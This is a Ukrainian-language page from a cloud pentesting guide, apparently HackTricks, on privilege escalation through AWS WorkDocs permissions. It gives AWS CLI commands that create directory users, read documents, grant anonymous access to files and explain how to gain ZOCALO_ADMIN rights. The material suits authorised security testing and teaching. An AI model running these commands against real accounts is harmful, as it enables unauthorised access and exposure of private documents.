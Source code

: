 # AWS - Підвищення привілеїв в WorkDocs

## WorkDocs

Для отримання додаткової інформації про WorkDocs перегляньте:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Створіть користувача всередині вказаного каталогу, після чого ви матимете доступ як до WorkDocs, так і до AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Файли можуть містити чутливу інформацію, прочитайте їх:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Якщо у вас немає доступу для читання чогось, ви можете просто надати його.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Ви можете зробити користувача адміністратором, встановивши його в групу ZOCALO\_ADMIN.\
Для цього слід дотримуватися інструкцій з [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Увійдіть за допомогою цього користувача в workdoc та отримайте доступ до панелі адміністратора за адресою `/workdocs/index.html#/admin`

Я не знайшов способу зробити це з командного рядка.
